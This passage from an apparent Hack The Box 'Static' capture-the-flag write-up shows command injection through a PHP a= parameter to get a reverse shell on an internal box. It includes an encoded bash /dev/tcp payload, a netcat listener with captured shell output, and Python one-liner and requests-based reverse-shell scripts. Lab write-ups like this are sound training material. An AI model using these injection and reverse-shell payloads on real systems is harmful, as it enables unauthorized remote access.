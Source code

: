 Now we have the payload to use with the a= parameter like before. So our final command looks like this:

```text
./curl-amd64 -s http://192.168.254.3/index.php?a=/bin/bash%20-c%20%27echo%20-n%20L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA%2BJjEn%20%7C%20base64%20-d%20%7C%20bash%27
```

Before we execute this on the web box we need a second SSH session open with nc waiting to catch the shell:

```text
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@10.10.10.246 -p 2222                                     
Last login: Sat Nov  6 16:04:52 2021 from 10.10.15.41

www-data@web:~$ cd /tmp
www-data@web:/tmp$ ./nc -nlvp 1337
listening on [any] 1337 ...
```

Now paste our curl command on the first SSH sesion we opened on the web box:

```text
www-data@web:/tmp$ ./curl-amd64 -s http://192.168.254.3/index.php?a=/bin/bash%20-c%20%27echo%20-n%20L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA%2BJjEn%20%7C%20base64%20-d%20%7C%20bash%27
```

## PKI Server Reverse Shell

Switch to our second SSH session to see we have a reverse shell connected to pki box on 192.168.254.2:

```text
www-data@web:/tmp$ ./nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.254.2] from (UNKNOWN) [192.168.254.3] 34382
bash: cannot set terminal process group (11): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pki:~/html$ 
```

We could have done a one liner instead to create our payload and execute all in one:

```text
www-data@web:/tmp$ python3 -c "import urllib.parse; import os; PAYLOAD=('./curl-amd64 -s http://192.168.254.3/index.php?a='); PAYLOAD+=(urllib.parse.quote('/bin/bash -c \'echo -n L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA+JjEn | base64 -d | bash\'')); os.system(PAYLOAD)"
```

Another option would have been a Python script using the [requests](https://docs.python-requests.org/en/latest/user/quickstart/#make-a-request) library:

```python
#!/usr/bin/env python
import requests
payload = '/usr/bin/python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\''
requests.get("http://192.168.254.3/index.php?a="+payload)
```
